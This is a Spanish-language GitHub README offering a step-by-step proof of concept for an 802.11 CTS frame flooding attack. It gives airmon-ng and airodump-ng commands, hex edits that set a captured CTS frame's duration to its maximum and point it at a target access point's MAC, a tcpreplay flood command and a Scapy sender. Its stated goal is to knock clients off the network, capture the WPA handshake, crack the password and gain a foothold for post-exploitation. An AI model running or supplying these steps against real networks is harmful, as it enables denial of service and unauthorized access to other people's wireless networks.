 # WiFi 802.11: CTS Frame Attack

_Proof of Concept (PoC) que hice del proceso completo de un CTS Frame Attack con instrucciones paso a paso_

---

### Introducción

- Este ataque se basa en el secuestro de Bandwith (DataRate & Throughput) de la WLAN creando contención via Flooding de `CTS Frames` con su máximo `Duration`, esto genera un tipo de `DoS` en el WiFi. Esto puede generar comportamientos irregulares en la red, como deautenticar clientes. 

- El propósito es deautenticar clientes para al final capturar un 4-way-handshake (similar a un deauth attack) y así poder crackear el password e ingresar a la red, a partir de ahí se crea el foothold para post-exploit de red. 

Un ataque CTS frame es un tipo de ataque de red inalámbrica que busca explotar una vulnerabilidad en el protocolo de control `control frame 802.11 CTS (Clear to Send)` utilizado por el estándar de comunicación inalámbrica IEEE 802.11.

En este tipo de ataque, un atacante envía una gran cantidad de paquetes falsificados al dispositivo objetivo, cada uno de los cuales solicita una respuesta de tipo CTS. Al inundar al dispositivo objetivo con tantas solicitudes, el atacante puede abrumar su capacidad de respuesta, lo que puede provocar una caída en la conexión o retrasos en la comunicación.

El ataque CTS frame es una técnica de ataque de denegación de servicio (DoS) que tiene como objetivo interrumpir o interferir con la conexión inalámbrica de un dispositivo objetivo mediante la saturación de solicitudes falsificadas de tipo CTS.

---

### Instrucciones

Existen 2 files listos para la diversión:

1. [Fz3r0_CTS_808.pcap](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/blob/main/CTS-PCAPS/Fz3r0_CTS_808.pcap) - Este es un CTS raw capturado, sin modificar ni nada (excelente para hacer tampering de 0)
2. [Fz3r0_CTS_808_30000duration_attack.pcap](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/blob/main/CTS-PCAPS/Fz3r0_CTS_808_30000duration_attack.pcap) - Este esn un CTS ya modificado con el Duration en 30000 (máximo válido para un CTS)

Solo es necesario inyectarlo a la red en forma de flood al BSS que quieras atacar, por ejemplo:

```sh
tcpreplay --intf1=wlan0mon --topspeed --loop=2000 Fz3r0_CTS_808_30000duration_attack.pcap 2>/dev/null
```

- OJO!!! Hay que hacer modificación HEX para agregar la MAC/BSS de la WLAN a atacar

---

### PoC 

- Proof of Concept de ataque capturado en `pcapng`

[Ataqu-CTS-full-capturado-2devices.zip](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/files/11228557/Ataqu-CTS-full-capturado-2devices.zip)

Evidencias: 

- Nota: La manera más fácil de filtrarlos es buscando el BSS tanto en source y destination e identifical los EAPOL por el código de colores de `BlackShark`:

````java
wlan.addr == 30:45:96:d7:f2:3e
````

1. PC-1 - Handshake Capture

![image](https://user-images.githubusercontent.com/94720207/231935562-00b0eedc-1f31-463e-bd73-82cf725eab7e.png)

2. PC-2 - Handshake Capture

![image](https://user-images.githubusercontent.com/94720207/231935681-b6951a34-0aa4-43be-9831-feda10eac9fe.png)


```sh

## CTS = Clear To Send (Control Frames) Attack

    ## - Este ataque se basa en el secuestro de Bandwith (DataRate & Throughput) de la WLAN

    ## - El propósito es deautenticar clientes para al final capturar un handshake (similar a un deauth attack)

# INSTRUCCIONES:    

# 1. Monitorizar la red (ventana A + Save audit .cap) 

    # Ojo: no debe ser tan avanzado y auditoado realmente, solo quiero paturar el CTS, pero para tener ya toda la red para atacar desde un inicio :P (mas adelante necesito el BSS para inyectar el frame anyway)

airmon-ng check kill && airmon-ng start wlan0mon && airmon-ng check kill && airmon-ng start wlan0mon && airodump-ng -c 6 --bssid 30:45:96:D7:F2:3E --write Fz3r0_WiFi_Log wlan0

# 2. Ahora hay que crear, farmear o modificar... un Frame CTS con Duration (microsegundos) muy largo

#     - Lo extraigo de Wireshark farmeando cualquier cosa en la red o de una captura vieja 802.11

# Ejemplo: 

    # Escuchar con Wireshark y buscar CTS con:  >>> wlan.fc.type_subtype == 28 <<<

    # El lugar donde esta el duration en 802.11 frame > CTS > Flags > Duration (Hasta abajo) >>> wlan.duration <<<

    # Seleccionar el frame que quiera, y apuntar bien su Duration!!! p.e.: 556 (ss)

    # Wireshark > File > Export Specified packets > "Fz3r0_CTS_556.pcap"   REVISAR BIEN EXPORTAR "ONLY SELECTED" Y "PCAP (NO NEW GEN)"

# - Abrir ghex con el .pcap creado: 

ghex Fz3r0_CTS_808.pcap  

# - La mejor manera de revisar el duration es abrir ese mismo frame con wireshark y darle click y ya!!! tan facil

# - Las 2 veces que revisé era después del par 6 de derecha a izquierda: (00 2c)

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 2c 02 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --

# - Se puede comprobar con Python, por ejemplo:

     # 1 - Sacar el valor little indian (derecha izquierda en pares)

     # 2c 02 = 02 2c

     # 1- Comprobar con python en formato HEX: 0x2c00

# inicio consola python
python3

# En consola python
0x022c

    # Resultado, si fue igual a 556, entonces compruebo ese es el duration en hex

        # >>> 0x022c
        # 556

# 3. Ahora hay que modificar el frame para poner el máximo duration posible de un CTS (30000 ss) 
    
    # Esto va a crear contención artificial ;) 

# inicio consola python
python3

# En consola python
hex(30000)

    # Resultado = 0x7530 

        # >>> hex(30000)
        # '0x7530'

    # Little indian (reversa ahora) = 30 75

    # Entonces ahora el HEX quedaría así

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --

# En caso de haber cerrado ghex, volverlo a abrir 

ghex Fz3r0_CTS_808.pcap 

# 1. Modificación de Frame (solo dar doble click y modificar los 2 pares [30 75])

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --  

# 2. Modificar la MAC del BSS (AP) que quiero atacar 30:45:96:D7:F2:3E (si el primer frame se capturo de esa MAC entonces será la misma)

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 30 45 96 D7 F2 3E               ....,.$.E7..
###                               -- -- -- -- -- -- 

# 3. Guardar el archivo como un nuevo .pcap (este puede servir en un futuro, solo se necesita cambiar el BSS ;))

    # Save As: Fz3r0_CTS_808_30000duration_attack.pcap

# 4. Validar con wireshark el frame y su duración

wireshark Fz3r0_CTS_808_30000duration_attack.pcap 

    # En mi caso ahora el duration y Receiver Address dice: 

    # Duration:          30000

    # Receiver Address:  30:45:96:D7:F2:3E

    # FCS: Ese puede que marque error pero el frame será válido (recordar que algunas interfaces no capturan FCS como la Panda)

# 2. Inyectar el Frame CTS modificado con TCP Replay  

    # -- topspeed (que lo haga al maximo de velocidad)

    # -- loop (cantidad de frames a enviar)

tcpreplay --intf1=wlan0mon --topspeed --loop=2000 Fz3r0_CTS_808_30000duration_attack.pcap 2>/dev/null

# Se puede validar con <<< wlan.duration == 30000 >>> y se verán los paquetes boom!!!

    # En este punto se pudieron haber ya deautenticado dispositivos en el BSS atacado

````

### Crear CTS con Scappy

````py

# aun no he logrado modificar el duration, pero esto lanza un CTS real ;) 

from scapy.all import *

type_field = 12
subtype_field = 12
FCfield_field = 0
ID_field = 0
addr1_field = "00:11:22:33:44:55"
addr2_field = "aa:bb:cc:dd:ee:ff"
addr3_field = "ff:ee:dd:cc:bb:aa"
SC_field = 0

pkt = RadioTap() / Dot11(type=type_field, subtype=subtype_field, FCfield=FCfield_field, ID=ID_field, addr1=addr1_field, addr2=addr2_field, addr3=addr3_field, SC=SC_field)

print(pkt.summary())

# Enviar el paquete creado
sendp(pkt, iface="wlan0mon", count=1)

````

---

### Ejemplo de ghex como quedaría el tamper al final: 

![image](https://user-images.githubusercontent.com/94720207/231923676-45c90520-c7fe-41e2-928e-d164a2bd3afc.png)


